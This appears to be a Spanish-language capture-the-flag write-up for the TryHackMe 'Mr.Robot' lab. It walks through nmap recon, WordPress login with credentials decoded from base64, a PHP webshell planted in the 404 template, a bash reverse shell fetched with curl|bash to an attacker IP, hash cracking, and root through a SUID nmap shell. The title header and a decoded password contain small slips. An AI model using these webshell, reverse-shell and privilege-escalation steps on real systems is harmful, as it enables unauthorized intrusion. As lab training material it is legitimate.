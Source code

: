```yaml
---
layout: post
title:  "Maquina Mr.RobotCTF de TryHackMe (No necesario VIP)"
categories: "TryHackMe"
description: En esta ocasion empezaremos con el Writeup de la maquina de TryHackMe llamada MR.ROBOT-CTF-
tags: TryHackMe, Mr.Robot, nmap, Wordpress, Web Hacking, , SUID, Writeup, 
---
```


# Anonymous ~ TryHackMe

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.158.107       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.41 seconds
```
Procedemos con la herramienta `Whatweb`:
```bash
"# wtw 10.10.158.107     "                                                                                                                             1 ⨯
http://10.10.158.107 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[10.10.158.107], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]
                                                                                                                                                           
"# wtw 10.10.158.107:443  "
http://10.10.158.107:443 [400 Bad Request] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.158.107], Title[400 Bad Request], X-Frame-Options[SAMEORIGIN]
```
Procedemos a hechar un vistazo visual a la pagina web por el puerto 80:

INVESTIGANDO POR LA PAGINA WEB ENCONTRAMOS:

1.- http://10.10.158.107/wp-login.php

2.- http://10.10.158.107/comments/ 		-- SEGUIMOS POR AQUI

3.-Probamos a hacer un Simple Fuzzing web ya que el script de nmap esta tardando muchisimo

4.- Buscamos por la ruta de `robots.txt`:
```bash
Encontramos un diccionario `fsociety.txt`que nos descargamos y la primera flag
```
5.- Seguimos enumerando diferentes archivos a nivel de ruta `license.txt`:
```bash
encontramos esta cadena "ZWxsaW90OkVSMjgtMDY1Mgo="

# echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
	elliot : ER28-0552  		--  que nos permite entrar en el CMS WORDPRESS 
```

# Acceso Inicial desde el Wordpress modificando la plantilla 404.php

Una vez tenemos acceso al Wordpress vamos a repetir el mismo proceso realizado en otras maquinas en la plataforma de HTB mediante en el cual modificando la plantilla de la pagina
404.php por en este caso lo siguiente:
```php
Una webshell facilita para poder ejecutar comandos desde la url
<?php
        system($_RESQUEST['cmd']);
?>
```
Luego nos montamos un servidor que nos postee un `script.sh` que nos envie una R_shell a nuestra IP por el 443:
```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.9.4.60/443'
```
Para luego apuntar desde el `404.php` y pipearlo `"[ | ]"` con Bash:
```bash
" http://10.10.158.107/asdfasdfa?cmd=curl%20http://10.9.4.182/script.sh|bash       "			
```
Accedemos y nos hacemos la consola interactiva con `python` esta vez:
```python															
python -c 'import pty; pty.spawn("/bin/bash")	
ctrl+Z
```
Vemos que tenemos un la flag en `/home/robot/user.txt` y que no podemos leerla. Pero podemos ver la pass del user `Robot` almacenada en la misma carpeta.
`robot:c3fcd3d76192e4007dfb49xxxxxxxx` en md5
La crackeamos con `CrackStation.com`
Procedemos a hacer un cambio de usuario con el comando `su` y conseguimos la flag `user.txt`

# Escalada de Privilegios hasta el user Root
Procedemos como siempre a enumerar de distintas formas la maquina:
1.- Permisos SUID
```bash
$ find / -perm -u=s -type f 2>/dev/null
```
```
/usr/bin/nmap --SUID
```
Con el binario de `nmap` como SUID procedemos asi:
```bash
  nmap --interactive
  nmap> !sh  
```
```bash
"robot@linux:~$ /usr/local/bin/nmap --interactive       "
                                                                                                                                                           
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )                                                                                                    
Welcome to Interactive Mode -- press h <enter> for help 

"nmap> !sh  "                                                                                                                                                 
# whoami                                                                                                                                                   
root                                                                                                                                                       
#       
```
Ya estariamos como root y podriamos sacar la flag `root.txt`.
Maquina Mr.Robots Rooteada =) 
